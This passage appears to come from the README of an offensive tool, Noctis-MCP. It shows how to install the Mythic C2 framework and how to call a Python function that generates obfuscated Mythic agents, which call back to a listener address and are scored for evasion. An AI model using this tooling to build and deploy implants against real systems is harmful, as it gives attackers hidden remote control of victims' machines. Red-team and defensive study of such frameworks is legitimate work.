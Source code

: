 ### Adaptix BOF Features

- **Position-Independent Code** - Crash-safe execution
- **Single-Threaded** - Reliable BOF execution
- **AxScript Integration** - Easy command registration
- **Argument Packing** - `ax.bof_pack()` for argument marshalling

---

## Mythic C2

### Installation

```bash
# Clone repository
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic

# Install Docker
sudo ./install_docker_ubuntu.sh

# Start Mythic
sudo ./mythic-cli start

# Install Forge (for BOF support)
sudo ./mythic-cli install github https://github.com/MythicAgents/forge.git

# Access UI: https://127.0.0.1:7443
```

### Get API Token

```bash
# Login to Mythic UI: https://127.0.0.1:7443
# Navigate to: Settings → API Tokens → Generate New Token
# Copy token for Noctis-MCP
```

### Generate Agent with Noctis

**Python API:**
```python
from c2_adapters import generate_mythic_agent

result = generate_mythic_agent(
    listener_host="192.168.1.100",
    listener_port=80,
    api_token="your_api_token_here",
    agent_type="apollo",  # or "athena", "poseidon", "merlin"
    c2_profile="http",
    architecture="x64",
    techniques=["NOCTIS-T004"],
    obfuscate=True
)

print(f"Agent: {result.beacon_path}")
print(f"OPSEC Score: {result.opsec_score}/10")
```
